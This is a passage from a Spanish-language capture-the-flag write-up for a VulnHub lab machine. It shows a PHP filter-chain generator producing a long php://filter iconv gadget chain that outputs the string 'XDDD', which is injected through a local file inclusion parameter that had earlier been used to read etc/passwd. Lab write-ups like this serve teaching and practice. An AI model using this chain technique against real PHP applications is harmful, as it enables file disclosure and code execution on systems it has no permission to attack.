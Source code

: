 ```bash
```

```bash
❯ python3 php_filter_chain_generator.py --chain "XDDD"
[+] The following gadget chain will generate the following code : XDDD (base64 value: WERERA)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Y vamos a ver si funciona se supono que en vez de poner `etc/passwd` vamos a pegar lo que nos genero y tenemos que ver directamente lo que le digimos que es XDDD

Y funciono

![](/assets/images/vh-writeup-tomato1/Web8.png)
